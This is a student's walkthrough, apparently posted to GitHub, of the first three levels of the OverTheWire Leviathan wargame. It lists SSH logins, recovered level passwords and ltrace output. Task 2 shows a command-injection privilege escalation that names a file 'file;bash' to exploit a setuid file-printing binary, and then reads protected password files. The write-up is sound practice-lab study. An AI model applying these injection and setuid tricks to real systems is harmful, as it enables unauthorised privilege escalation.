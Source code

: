 #TASK 0 

  - I used the SSH command provided in the discord. `ssh -p 2223 leviathan0@leviathan.labs.overthewire.org`
  - Later it after saying yes it prompted for a password and the password was mentioned in the leviathan site. `leviathan0`
  - I finally entered and did `ls`. Nothoin showed up and did ls again but there was nothing.
  - Then I `la` and found a hidden directory `.backup`
  - The directory has a html file. `bookmarks.html`
  - Used `cat` to view the contents of the file. It was too big. I couldn't find a password.
  - After some google search I found we could use `grep`. `grep password bookmarks.html`
  - The password is `PPIfmI1qsA`
  - `exit

#TASK 1
  - ssh into the level 1 using `ssh -p 2223 leviathan1@leviathan.labs.overthewire.org`
  - `ls -lah` and setuid file was found `check`
  - tried cat check but it was all encrypted
  - Tried `ls -lah` : `-r-sr-x---  1 leviathan2 leviathan1  15K Oct  5 06:19 check`
  - Used `ltrace` command which helps in debbuging. It propmted for password.
  - I pressed enter thrice in a row and it later outputed leviathan1@gibson:~$ ltrace ./check
```
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
          printf("password: ")                                                     = 10
getchar(0xf7fbe4a0, 0xf7fd6f90, 0x786573, 0x646f67password: 
)                      = 10
getchar(0xf7fbe4a0, 0xf7fd6f0a, 0x786573, 0x646f67
)                      = 10
getchar(0xf7fbe4a0, 0xf7fd0a0a, 0x786573, 0x646f67
)                      = 10
strcmp("\n\n\n", "sex")
```
  - Then `man strcmp` found out that it compares tw strings
  - So, the command was comparing the password I typed to the main password `sex`
  - To verify `./check`
  - typed in `sex` and it's right.
  - `ls` check file was found and it's encrypted.
  - Tried `sex` as the password for next task but it's not the passsword
  - In the main page of leviathan it says use `/etc/leviathan_pass/`
  - `cat /etc/leviathan_pass/leviathan2
  - password : `mEh5PNl10e`
  - `exit`

#TASK 2 (very hard)
  - `ssh -p 2223 leviathan2@leviathan.labs.overthewire.org`
  - `ls -lah` to see the file found another setuid file `printfile`
  - `ltrace ./printfile` to see if it has anything. It outputted
```
leviathan2@gibson:~$ ltrace ./printfile 
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
puts("*** File Printer ***"*** File Printer ***
)                                             = 21
printf("Usage: %s filename\n", "./printfile"Usage: ./printfile filename
)                            = 28
+++ exited (status 255) +++
```
  -  Googled alot found `ltrace ./printfile /etc/passwd`
```
leviathan2@gibson:~$ ltrace ./printfile /etc/passwd
__libc_start_main(0x80491e6, 2, 0xffffd5e4, 0 <unfinished ...>
access("/etc/passwd", 4)                                                 = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")      = 20
geteuid()                                                                = 12002
geteuid()                                                                = 12002
setreuid(12002, 12002)
```
  -  So created a temporary directory `mktemp -d`. Directory : `/tmp/tmp.xwYiWD6qKQ`
  -  `cd /tmp/tmp.xwYiWD6qKQ` : Enter the directory
  -  `touch 'file;bash'` this helps with command injection.
  -  `cd` exit directiry.
  -  `./printfile /tmp/tmp.xwYiWD6qKQ/file\;bash` : Permission is denined since we try to run the bash file but we escalte into leviathan3.
```
leviathan2@gibson:/tmp/tmp.xwYiWD6qKQ$ cd
leviathan2@gibson:~$ ./printfile /tmp/tmp.xwYiWD6qKQ/file\;bash 
/bin/cat: /tmp/tmp.xwYiWD6qKQ/file: Permission denied
leviathan3@gibson:~$
```
  -  `cat /etc/leviathan_pass/leviathan3`
  -  Password: `Q0G8j4sakn`



  

